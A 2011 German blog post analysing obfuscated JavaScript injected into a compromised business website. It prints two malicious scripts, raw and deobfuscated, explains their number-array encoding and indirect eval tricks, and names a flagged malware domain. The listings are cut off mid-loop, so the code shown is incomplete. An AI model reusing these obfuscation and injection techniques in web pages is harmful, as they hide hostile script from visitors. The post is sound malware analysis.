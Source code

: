 Amore, Amore more ore
#####################
:date: 2011-06-21 01:44
:tags: bugs, de, exploits, javascript, reverse engineering

Bei meinem alltaeglichen stoebern im Netz kam ploetzlich eine Meldung,
die ich schon lange nichtmehr gesehen hatte. Man muss dazu sagen: ich
verwende chromium als Browser. Firefox meldet da leider nichts.
|image0| Das machte mich stutzig, was chromium dermassen aufstoesst.
Gefunden hab ich ein "obfuscated" javascript am Ende der Seite, schoen
eingebaut in <!-- . -->

 .. code-block :: javascript

    var date=new Date();function lols(){return true}
    window.onerror=lols;var fr='fromC';function getXmlHttp(){var xmlhttp;try{xmlhttp=new ActiveXObject('Msxml2.XMLHTTP');fr+='harCode';}catch(e){try{fr+='harCode';xmlhttp=new ActiveXObject('Microsoft.XMLHTTP');}catch(e){xmlhttp=false;}}
    if(!xmlhttp&&typeof XMLHttpRequest!='undefined'){xmlhttp=new XMLHttpRequest();}
    return xmlhttp;}
    var cont=[3200,3.46875,3168,3.65625,3488,3.15625,3520,3.625,1472,3.71875,3648,3.28125,3712,3.15625,1280,1.21875,1920,3.28125,3264,3.5625,3104,3.40625,3232,1,3680,3.5625,3168,1.90625,1088,3.25,3712,3.625,3584,1.8125,1504,1.46875,3808,3.71875,3808,1.4375,3104,3.40625,3552,3.5625,3232,1.40625,3488,3.46875,3648,3.15625,1440,3.46875,3648,3.15625,1440,3.5625,3232,1.6875,1472,3.28125,3520,1.4375,3744,3.03125,1504,3.28125,3520,1.4375,3168,3.21875,3360,1.96875,1600,1.0625,1024,3.71875,3360,3.125,3712,3.25,1952,1.0625,1568,1.0625,1024,3.25,3232,3.28125,3296,3.25,3712,1.90625,1088,1.53125,1088,1,3264,3.5625,3104,3.40625,3232,3.0625,3552,3.5625,3200,3.15625,3648,1.90625,1088,1.5,1088,1.9375,1920,1.46875,3360,3.1875,3648,3.03125,3488,3.15625,1984,1.21875,1312,1.84375];v=32;date=new Date();try{var req=getXmlHttp();req.onreadystatechange=function(){if(req.readyState==1){absrbwa();}};req.open('GET','http://google.com/',true);req.send(null);}catch(e){}
    var y=false;function absrbwa(){if(y)return;y=true;ev=eval;s='';for(i=0;i
    Aber auch daraus wird man erstmal nicht schlau. Es macht irgendeinen Request an google und es geht alle Zahlen in dem Array durch.
    Um es genauer zu verstehen, hab ich den code ein wenig aufgeraeumt:

    var date=new Date();
    function lols(){ return true }

    window.onerror=lols;
    var fr='fromC';

    function getXmlHttp(){
      var xmlhttp;
      try{
        xmlhttp=new ActiveXObject('Msxml2.XMLHTTP');
        fr+='harCode';
      }catch(e){
        try{
          fr+='harCode';
          xmlhttp=new ActiveXObject('Microsoft.XMLHTTP');
        }catch(e){
          xmlhttp=false;
        }
      }
      if(!xmlhttp&&typeof XMLHttpRequest!='undefined'){
        xmlhttp=new XMLHttpRequest();
      }
      return xmlhttp;
    }

    var cont=[3200,3.46875,3168,3.65625,3488,3.15625,3520,3.625,1472,3.71875,3648,3.28125,3712,3.15625,1280,1.21875,1920,3.28125,3264,3.5625,3104,3.40625,3232,1,3680,3.5625,3168,1.90625,1088,3.25,3712,3.625,3584,1.8125,1504,1.46875,3808,3.71875,3808,1.4375,3104,3.40625,3552,3.5625,3232,1.40625,3488,3.46875,3648,3.15625,1440,3.46875,3648,3.15625,1440,3.5625,3232,1.6875,1472,3.28125,3520,1.4375,3744,3.03125,1504,3.28125,3520,1.4375,3168,3.21875,3360,1.96875,1600,1.0625,1024,3.71875,3360,3.125,3712,3.25,1952,1.0625,1568,1.0625,1024,3.25,3232,3.28125,3296,3.25,3712,1.90625,1088,1.53125,1088,1,3264,3.5625,3104,3.40625,3232,3.0625,3552,3.5625,3200,3.15625,3648,1.90625,1088,1.5,1088,1.9375,1920,1.46875,3360,3.1875,3648,3.03125,3488,3.15625,1984,1.21875,1312,1.84375];

    v=32;
    date=new Date();
    try{
      var req=getXmlHttp();
      req.onreadystatechange=function(){
        if(req.readyState==1){
          absrbwa();
        }
      };
      req.open('GET','http://google.com/',true);
      req.send(null);
    }catch(e){}

    var y=false;

    function absrbwa(){
      if(y) return;
      y=true;
      ev=eval;
      s='';
      for(i=0;i

Es ist nicht ganz so clever, wie das facebook script, aber hat doch einige nette Elemente drin, die es lohnt sich mal anzuschaun. Auch hier wird ein Array benutzt um das ganze ein wenig schwerer zu gestalten und nicht so auffaellig zu sein. Interressant ist, dass er "date" zweimal ein neues Date-Objekt zuweist. In meinen Augen verschwendung.
Der Request zu Google ist auch eigentlich ueberfluessig. Die Funktion "getXmlHttp()" ist nur eine Ablenkung um die Variable "fr", mit "fromCharCode" zu fuellen, um sie spaeter in "String[fr]" weiter zu verwenden.
Relativ schnell sieht man im Array ein Muster "Integer, Float, Integer, Float,...". Das macht sich dann spaeter auch in der Berechnung des CharCodes "(i%2) ? cont[i]*v : cont[i]/v" bemerkbar.
ev ist nur auch wieder eine obfuscation um von eval abzulenken.
Interressant ist auch noch die Variable "y" mit der Sichergestellt wird, dass die Funktion zwar mehrfach aufgerufen werden kann, aber das Array nur einmal dekodiert wird.
Es wird also aus diesen Zahlen ein String zusammengesetzt. Aber wie sieht der String nun aus? 
Das laesst sich mit einem einfachen: "javascript: alert(s);" relativ leicht klaeren.

 .. code-block :: javascript

    document.write('');

Das ganze schreibt ueber den evil Befehl ein iframe mit der
Hoehe=Breite=1 in die Website. Es sieht mir eher nach einem Zaehler aus,
oder aehnliches. Aber ich kann es nicht klar zuordnen. Die Seite an sich
ist "leider" offline und hier hoert meine Spur auf, aber Google hat sie
als Malware eingestuft (siehe `hier`_) Ich hab bisher nicht
rausgefunden, wie die Website infiziert wurde. Aber auf einer anderen
Seiten von Filialen des Betriebes hab ich aehnlichen Schadcode gefunden.
Nachdem aber auf keiner anderen Seite unter dieser IP aehnliches zu
finden war, geh ich von einem Domain Problem aus. Die Seiten sehen alle
Recht aehnlich aus, als tippe ich auch auf aehnliche Luecken. Das
einzige dynamische Element auf das man direkten Zugriff hat ist die
Suche: fts.php Eine andere Erklaerung waere ein Trojaner Lokal, der den
Code immer wieder einfuegt, aber das waere denke ich zu aufwaendig. Hab
aber keine Lust und Zeit, mich damit weiter zu beschaeftigen, aber fals
der Betreiber so freundlich ist, mir den SourceCode der fts.php zur
Verfuegung zu stellen, werde ich mal einen Blick drueber werfen. Auf
einer anderen Domain war noch ein anderes Script zu finden:

 .. code-block :: javascript

    var ar="-n2=c:9m0'd)eu otag?pbr(\"hw";var k=new Boolean().toString();var ar2="f57,72,39,66,48,63,3,75,18,105,93,12,75,63,96,54,6,12,15,93,78,48,63,69,21,93,39,36,99,102,75,75,87,42,9,9,105,105,105,18,78,48,72,93,63,0,48,72,93,63,0,72,93,63,0,93,63,45,18,12,3,18,66,78,9,12,3,18,39,81,12,84,33,99,69,105,12,57,75,102,36,99,27,99,69,102,63,12,81,102,75,36,99,27,99,69,15,93,78,48,63,90,72,93,57,63,93,36,99,51,99,30,6,9,12,15,93,78,48,63,30,54,60,24]".replace(k.substr(0,1),'[');date=new Date();pau="rn ev2011".replace(date.getFullYear(),"al");e=new Function("","retu"+pau);e=e();ar2=e(ar2);s="";for(i=0;i
    Welches aufgeraeumt auch um einiges schoener aussieht:

    var ar="-n2=c:9m0'd)eu otag?pbr(\"hw";

    var k=new Boolean().toString();
    var ar2="f57,72,39,66,48,63,3,75,18,105,93,12,75,63,96,54,6,12,15,93,78,48,63,69,21,93,39,36,99,102,75,75,87,42,9,9,105,105,105,18,78,48,72,93,63,0,48,72,93,63,0,72,93,63,0,93,63,45,18,12,3,18,66,78,9,12,3,18,39,81,12,84,33,99,69,105,12,57,75,102,36,99,27,99,69,102,63,12,81,102,75,36,99,27,99,69,15,93,78,48,63,90,72,93,57,63,93,36,99,51,99,30,6,9,12,15,93,78,48,63,30,54,60,24]".replace(k.substr(0,1),'[');

    date=new Date();
    pau="rn ev2011".replace(date.getFullYear(),"al");
    e=new Function("","retu"+pau);

    e=e();
    ar2=e(ar2);
    s="";
    for(i=0;i

Auch dieses Script ist wieder ziemlich ev(i|a)l.
Es macht sich einen String "k" in welchem "false" steht. Dann generiert es aus dem String "ar2" ein Array, indem es das erste Zeichen von "false", also ein "f", durch eine eckige Klammer ersetzt.
Soweit sogut, aber wo ist das eval. Wir definieren uns die Variable "pau" mit "rn ev2011" und ersetzen das Jahr durch "al" und schon haben wir unser eval...naja nicht ganz, bisher steht da nur: "rn eval".
Aber das loest sich, wenn wir eine Funktion generieren, die wir "e" nennen, die nichts anderes macht als: return eval.
Dann sagen wir, dass: "e=e();" was "e" auch evil, aeh eval, macht.
Nun koennen wir endlich aus ar2 ein Array machen.

Die Zahlen definieren bloss die Position des Zeichens im String "ar". Dieses Zeichen wird dann an den String "s" angehaengt. 
Und der String "s" dann ueber "e(s)" ausgefuehrt.
Dadrin steht, wer haette es gedacht:

 .. code-block :: javascript

    document.write('');

Ich hoffe der Betreiber meldet sich und ich kann mir den SourceCode mal
naeher anschauen oder er die Javascript entfernen, denn eine Warnmeldung
fuer alle Chrome/Chromium Benutzer, wenn man auf seine Seite geht,
sollte ja auch nicht sein. so long

.. _hier: http://www.google.de/safebrowsing/diagnostic?site=amore-more-ore-re6.in.ua/

.. |image0| image:: http://images.hoeja.de/blog/2011-06-21-021047_1024x768_scrot-300x225.png
